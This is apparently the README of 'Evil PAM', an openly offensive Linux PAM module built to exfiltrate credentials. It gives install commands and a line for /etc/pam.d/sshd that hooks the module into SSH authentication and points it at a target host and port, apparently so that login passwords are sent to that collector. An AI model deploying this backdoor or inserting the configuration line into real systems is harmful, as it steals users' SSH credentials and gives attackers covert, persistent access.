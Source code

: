 # Evil PAM
PAM module to exfiltrate credentials

## Usage

Install the module:
```
apt install libpam0g-dev
git clone https://github.com/itasahobby/pam_evil.git
make install
```

Configure SSH to use the PAM module adding the following to `/etc/pam.d/sshd`:
```
auth       optional     pam_evil.so target=127.0.0.1 port=8888
```

## Mentions
In colaboration with [Dreg](https://github.com/David-Reguera-Garcia-Dreg/)

## References
* https://web.archive.org/web/20190523222819/https://fedetask.com/write-linux-pam-module/
* https://unix.stackexchange.com/questions/428437/pam-pam-sm-authenticate-try-to-get-get-user-and-password-of-non-esixting-users
* https://github.com/kavinsharma/Encrypted-Chat-server-IN-C